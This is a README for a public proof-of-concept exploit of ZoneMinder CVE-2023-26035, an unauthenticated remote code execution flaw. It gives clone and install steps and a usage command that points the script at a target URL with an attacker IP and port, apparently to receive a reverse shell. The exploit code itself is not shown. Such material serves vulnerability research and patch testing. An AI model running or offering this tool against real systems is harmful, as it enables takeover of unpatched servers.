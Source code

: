 # Zoneminder Unauthenticated RCE via Snapshots (CVE-2023-26035) POC

This is a script written in Python that allows the exploitation of the **Zoneminder's** security flaw described in **CVE-2023-26035**. The system is vulnerable in versions preceding **1.36.33** and **1.37.33.**

## Usage

Clone the repository to your machine and install the dependencies using **pip** (it is recommended to use **virtualenv** to create an environment to separate these installations from global installations)

```bash
git clone https://github.com/m3m0o/zoneminder-snapshots-rce-poc
cd zoneminder-snapshots-rce-poc
pip install -r requirements.txt
```

The script needs the **target URL** with the **Zoneminder's** root path (like **http://example.com/zm, http://example.com** or **http://example.com/zoneminder)**, the **IP** or **domain** for the target machine to connect and the **port** for the target machine to connect. Here's an example:

```bash
python3 main.py -u http://zoneminder.target:8000 -i 10.10.14.56 -p 443
```

![script-demo](https://iili.io/Ju3w7t9.gif)

## References

[Unauthenticated RCE in snapshots](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-72rg-h4vf-29gr)

[Rapid7 Vulnerability & Exploit Database ZoneMinder Snapshots Command Injection](https://www.rapid7.com/db/modules/exploit/unix/webapp/zoneminder_snapshots/)
